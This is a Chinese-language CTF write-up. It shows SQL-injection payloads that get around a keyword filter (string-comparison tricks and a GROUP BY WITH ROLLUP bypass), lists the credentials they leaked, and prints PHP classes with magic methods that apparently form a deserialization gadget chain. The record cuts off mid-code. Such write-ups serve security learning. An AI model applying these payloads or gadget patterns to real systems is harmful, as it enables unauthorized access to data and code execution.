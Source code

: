 这题蛮有水平，但是出题人似乎是因为出题太晚而导致我们直接读到service.php，弄了个非预期解。非预期没啥，讲下预期。

被过滤的：like    sleep    regexp    select    limit    benchmark    and    where    (    )    union

username=1\&passwd=||passwd > "1";#

username=1\&passwd=||passwd < "1";#

这里太妙了，巧妙了利用字符串比较的技巧。出题人给的payload是

```php
usernam=1’ or ‘1’=‘1’  group by passwd with rollup having passwd is NULL – -&passwd=
```

但是说实话这个局限性比较大，因为一般都会判断密码是否为空，真好在一次无聊的渗透遇到了密码不为空的情况。

爆出

账号xiaoc 密码 333333333xiaoa 密码 111111111xiaob 密码 222222222

hint内容：a few file may be helpful index.php  Service.php interface.php se.php

get_flag：

method can use get_flag only **admin in 127.0.0.1** can get_flag

重点在于se.php和interface.php

虽然se.php搞得很夸张

```php
<?php


ini_set('session.serialize_handler', 'php');

class aa
{
        public $mod1;
        public $mod2;
        public function __call($name,$param)
        {
            if($this->{$name})
                {
                    $s1 = $this->{$name};
                    $s1();
                }
        }
        public function __get($ke)
        {
            return $this->mod2[$ke];
        }
}

class bb
{
        public $mod1;
        public $mod2;
        public function __destruct()
        {
            $this->mod1->test2();
        }
}
class cc
{
        public $mod1;
        public $mod2;
        public $mod3;
        public function __invoke()
        {
```